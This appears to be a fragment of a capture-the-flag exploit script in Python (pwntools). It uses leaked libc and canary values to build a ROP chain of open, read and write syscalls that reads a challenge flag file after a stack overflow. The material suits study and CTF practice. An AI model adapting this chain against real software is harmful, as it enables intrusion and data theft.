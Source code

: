 ```python
log.success(f'libc base addr = {hex(libc_base_addr)}')
log.success(f'Main Function Address = {hex(main_fn_addr)}')
log.success(f'Code Segment = {hex(code_segment_base)}')

# Prepare ROP gadget
pop_rax_ret = libc_base_addr + 0x0000000000045eb0# : pop rax ; ret
pop_rdi_ret = libc_base_addr + 0x000000000002a3e5# : pop rdi ; ret
pop_rsi_ret = libc_base_addr + 0x000000000002be51# : pop rsi ; ret
pop_rdx_ret = libc_base_addr + 0x00000000000796a2# : pop rdx ; ret
pop_rdx_rbx_ret = libc_base_addr + 0x0000000000090529# : pop rdx ; pop rbx ; ret
syscall_ret = libc_base_addr + 0x0000000000091396# : syscall ; ret

bss_addr = code_segment_base + 0x3000 + 0x200
bss_addr_flag = bss_addr + 0x400
bss_addr_buf = bss_addr_flag + 0x120

file_addr = b'/home/chal/flag.txt'.ljust(0x38, b'\x00')

trash_payload = flat(
    canary,
    bss_addr,
    main_fn_addr + 291
)

extend_payload = flat(
    canary,
    bss_addr_flag,
    pop_rax_ret, 400,
    main_fn_addr + 298,
)

open_payload = flat(
    # Open file
    # fd = open("/home/chal/flag.txt", 0);
    pop_rax_ret, 2,
    pop_rdi_ret, bss_addr_flag - 0x40,
    pop_rdx_rbx_ret, 0, 0,
    pop_rsi_ret, 0,
    syscall_ret
)

read_payload = flat(
    # Read the file
    # read(fd, buf, 0x30);
    pop_rax_ret, 0,
    pop_rdi_ret, 3, 
    pop_rsi_ret, bss_addr_buf,
    pop_rdx_rbx_ret, 0x70, 0,
    syscall_ret
)

write_payload = flat(
    # Write the file
    # write(1, buf, 0x30);
    pop_rax_ret, 1,
    pop_rdi_ret, 1,
    # pop_rsi_ret, bss_addr_buf,
    # pop_rdx_ret, 0x70,
    syscall_ret
)

# Extend rbp space
r.send(b'a' * 0x38 + trash_payload)
```